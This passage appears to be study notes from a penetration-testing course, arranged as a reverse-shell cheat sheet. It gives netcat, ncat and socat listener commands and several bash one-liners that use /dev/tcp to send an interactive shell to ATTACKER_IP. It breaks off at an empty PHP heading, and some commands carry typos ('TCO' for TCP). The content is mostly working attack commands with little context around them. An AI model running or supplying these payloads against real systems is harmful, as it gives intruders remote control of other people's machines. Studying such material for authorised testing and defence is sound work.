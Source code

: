 The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.


## shell listeners

rlwrap provides keyboard editing 
```
rlwrap nc -lvnp 443
```

Ncat is newer than netcat 
```
ncat -lvnp 4444

ncat --ssl -lvnp 4444
```

socat
```
socat -d -d TCO-LISTEN:443 STDOUT

-d verbose
-d -d high verbosity
STDOUT  print in terminal 
```


## shell payload

normal bash shell
```
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
bash read line reverse shell
```
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done

new file named 5 connects to TCP socket, read & execute commands
```
bash file descriptor 196
```
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196

file descriptor 196 to TCO connect, reads commands from network
```
bash file descriptor 5
```
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5

open interactive shell, file descriptor 5 for I/O
```

### PHP
